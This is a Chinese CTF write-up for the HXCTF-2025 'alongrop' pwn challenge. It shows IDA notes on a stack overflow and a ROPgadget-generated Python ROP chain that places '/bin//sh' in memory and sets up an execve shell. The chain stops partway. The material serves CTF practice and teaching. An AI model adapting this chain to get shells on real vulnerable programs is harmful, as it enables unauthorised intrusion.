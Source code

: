 ```yaml
---
title: HXCTF-2025-pwn
tags:
    - 新生赛
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# final
## alongrop
### ida分析
![image-20250524195608074](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524195608074.png)
1.打开第一眼，左边函数特多，加载特慢。静态编译的文件
2.如图框出部分，提示ROPchain。同时0x256字节的输入，显然是ROP。
3.最后，标记出偏移是0x40+0x8

### gdb & ROPgadget 分析
`ROPgadget --binary alongrop --ropchain`
**使用命令查看一下ropchain**

```python
- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', 0x0000000000404ed2) # pop rsi ; pop rbp ; ret
p += pack('<Q', 0x00000000004aa0c0) # @ .data
	p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x00000000004211eb) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x00000000004205c5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000404ed2) # pop rsi ; pop rbp ; ret
p += pack('<Q', 0x00000000004aa0c8) # @ .data + 8
	p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000044cf30) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004205c5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000402148) # pop rdi ; pop rbp ; ret
p += pack('<Q', 0x00000000004aa0c0) # @ .data
	p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x0000000000404ed2) # pop rsi ; pop rbp ; ret
p += pack('<Q', 0x00000000004aa0c8) # @ .data + 8
	p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000040190d) # pop rdx ; ret
p += pack('<Q', 0x00000000004aa0c8) # @ .data + 8
p += pack('<Q', 0x000000000044cf30) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
p += pack('<Q', 0x000000000046a060) # add rax, 1 ; ret
```